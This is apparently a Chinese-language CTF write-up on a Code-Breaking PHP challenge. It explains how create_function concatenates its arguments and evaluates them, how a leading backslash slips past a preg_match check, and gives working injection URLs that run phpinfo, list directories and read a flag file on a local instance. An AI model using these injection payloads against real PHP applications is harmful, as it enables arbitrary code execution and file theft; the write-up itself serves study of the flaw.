








前言
一直想把code breaking好好刷一下，虽然吧知道本身能力不足，基本得看看wp。但我认为我能收获的东西却可以很多。通过本节create_function任意代码执行可以在学习下Zend框架,一直认为学好一门语言离不开对源码的分析，这个道理也是在学习java时视频中的老师重复强调的。

需要绕过preg_match对传入$action值首字母限制，将url扔入wfuzz，爆出%5c可以绕过

%5c = '\'
官方文档解释
php里默认命名空间是\，所有原生函数和类都在这个命名空间中。普通调用一个函数，如果直接写函数名function_name()调用，调用的时候其实相当于写了一个相对路径；而如果写\function_name() 这样调用函数，则其实是写了一个绝对路径。如果你在其他namespace里调用系统类，就必须写绝对路径这种写法。
create_function函数实现
/php-src@7.1/Zend/zend_builtin_functions.c

主要看ZEND框架是怎么构造执行create_function函数，代码第16~35调用宏定义memcpy实现对用户传入参数function_args,function_code进行拼接构造成。
1 | function __lambda_func ( function_args ) { function_code } \0 |
在第38行，函数会被扔到zend_eval_string中执行，相当与php中的eval函数
由于代码是简单的拼接
如果可控在第一个参数，需要闭合圆括号和大括号：create_function('){}phpinfo();//', '');
如果可控在第二个参数，需要闭合大括号：create_function('', '}phpinfo();//');
瞎扯下create_function命名和调用

根据以上源码可知，可总结create_function命名方式为
首字符为 '\0' (PHP中可以使用chr(0))，防止php中定义同名函数
拼接上lambda_%d 。 %d取决于系统中其他匿名函数
所以准确来说create_function构造的函数最后长这样
function \0lambda_%d( function_args ) { function_code } \0
通过以下代码可以反映源码操作实质$func多的一个字符就是 \0

Exp构造
官方例子能够反映原生代码执行情况
1 | $newfunc = create_function('$a,$b', 'return "ln($a) + ln($b) = " . log($a * $b);'); |
create_function是PHP中创建匿名函数的函数，其第一个参数是匿名函数的参数列表，第二个参数是匿名函数的内容。
在创建函数的时候，PHP会将用户输入的两个参数拼接成一个完整的PHP代码，并使用eval执行。此时，如果对代码进行闭合，即可直接执行任意代码，如：create_function('$a, $b', '}phpinfo();//');
可以选择 '//' '{'比和后面的大括号
1 | create_function('',$arg) |
phpinfo()
http://127.0.0.1:8087/?action=\create_function&arg=return%201;}phpinfo();{

show_source
http://127.0.0.1:8087/?action=\create_function&arg=return%201;}print_r(scandir(%27../%27));show_source(%27../flag_h0w2execute_arb1trary_c0de%27);{
show_source 可替换为hightlight_file

var_dump(file_get_contents)
http://127.0.0.1:8087/?action=\create_function&arg=return%201;}var_dump(file_get_contents(%27../flag_h0w2execute_arb1trary_c0de%27));{

若你觉得我的文章对你有帮助，欢迎点击上方按钮对我打赏